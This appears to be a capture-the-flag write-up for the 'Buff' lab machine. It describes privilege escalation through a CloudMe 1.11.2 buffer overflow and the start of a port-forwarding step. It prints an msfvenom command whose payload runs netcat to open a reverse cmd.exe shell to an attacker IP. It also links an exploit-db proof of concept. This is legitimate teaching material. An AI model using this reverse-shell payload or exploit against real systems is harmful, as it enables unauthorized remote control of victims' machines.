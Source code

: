 It took me a while to work this out, as its not obvious, and the regular programs and scripts you would use to enumerate and search for ways to escalate, like JAWS and winPEAS don't need to be used. I spent too long trying to work out what to do with the sparse information these tools were giving me, when the answer was under my nose the whole time. For example, I tried to use the [COMahawk attack](https://github.com/apt69/COMahawk) based on CVE-2019-1405 and CVE-2019-1322 after the Watson tool showed that the Buff box was vulnerable. 

Instead, you need to have a long and thorough look through each users folder. Eventually, you will find that a ```CloudMe_1112.exe``` in ```c:\Users\Shaun\Downloads```. Some google searching tells us cloudme is a cloud storage service, but also that CloudMe v1.11.2 is extremely vulnerable to a Buffer Overflow Attack, where we can send the service bogus data, and then give it encoded instructions at the right point to make the service execute our malicous code. 

## Buffer Overflow Attack Setup

### Shellcode
If you search on exploit-db for Proof of Concept exploits related to CloudMe v1.11.2, you'll find a variety exploits written in Python. I chose [this exploit](https://www.exploit-db.com/exploits/48389) to build my attack on top of. The script creates a stream of bogus data to send to the cloudMe service, and then adds the payload encoded as shellcode to the service to execute. 

[Shellcode](https://en.wikipedia.org/wiki/Shellcode) is the code you send as the payload to a vulnerability, often to open some kind of shell to run commands on. Its often encoded in machine code, and as such is not human readable. 

So, if a human can't read shellcode, how do you get it? You can use a tool like ```msfvenom``` to generate the shellcode for a variety of payloads. In order to replace the default shellcode in the exploit script, I am using the following command:
```bash
msfvenom -p windows/exec CMD="C:\xampp\htdocs\gym\upload\nc.exe 10.10.14.57 445 -e cmd.exe" -f py EXITFUNC=thread -b '\x00\x0a\x0d' -v payload
```
I'll try and explain what each part does. ```-p windows/exec``` is the payload we want to encode. It allows you to run a command on the host system of the service your attacking. ```CMD="C:\xampp\htdocs\gym\upload\nc.exe 10.10.14.57 445 -e cmd.exe"``` starts nc.exe residing in the upload folder from the webshell and runs cmd.exe to give the listener running access to cmd.exe with the permissions the cloudMe service is running as. ```-f py``` tells msfvenom we want the shellcode to be packaged in such a way we can drop it into python. ```EXITFUNC=thread``` adds machine code that allows our reverse shell to run in a seperate thread from the service. ```-b '\x00\x0a\x0d'``` tells msfvenom to get rid of these "bad" bytes in the shellcode that either serve no function or could cause the payload to fail. Finally, ```-v payload``` tells msfvenom to set the variable we wrap the shellcode up in to be payload. 

Running this command generates the shellcode we can now replace the default shellcode in the exploit script with. 

### Port Forwarding
If we look back at our results from running ```netstat | netstat -an | find /i "listening"``` we notice that port 8888, the port cloudMe runs on by default, is set to only allow connections from requests originating on the same system:
```
--snip--
TCP    127.0.0.1:8888         0.0.0.0:0              LISTENING
--snip--
```
 and we can not easily run our exploit script locally. We can, however, use of the open ports on the machine to capture our request and send it to port 8888 as if it was originating from the localhost. This technique is called port forwarding. 
